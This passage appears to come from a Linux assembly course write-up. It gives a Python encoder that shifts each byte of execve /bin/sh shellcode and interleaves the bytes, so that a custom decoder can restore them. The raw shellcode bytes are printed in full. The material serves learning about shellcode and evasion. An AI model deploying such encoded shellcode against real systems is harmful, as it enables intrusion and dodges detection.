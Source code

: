 <img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex4-4.JPG"/>

At last, we combine both decoder and created a python encoder to create the shellcode the shellcode used here is the execve-stack that will execute /bin/sh

### Python encoder:

```python
import random

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encodedP2 = ""
encoded2 = ""
encoded2P2 = ""
count = 1

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
	x += 1
	if count % 2 != 0:
		encoded += '\\x'
		encoded += '%02x' % x
	else:
		encodedP2 += '\\x'
		encodedP2 += '%02x' % x
	if count % 2 != 0:
		encoded2 += '0x'
		encoded2 += '%02x,' % x
	else:
		encoded2P2 += '0x'
		encoded2P2 += '%02x,' % x
	count += 1
print encoded + encodedP2
print encoded2 + encoded2P2

print 'Len: %d' % len(bytearray(shellcode))
print 'Replace number to: %d' % (count/2)
```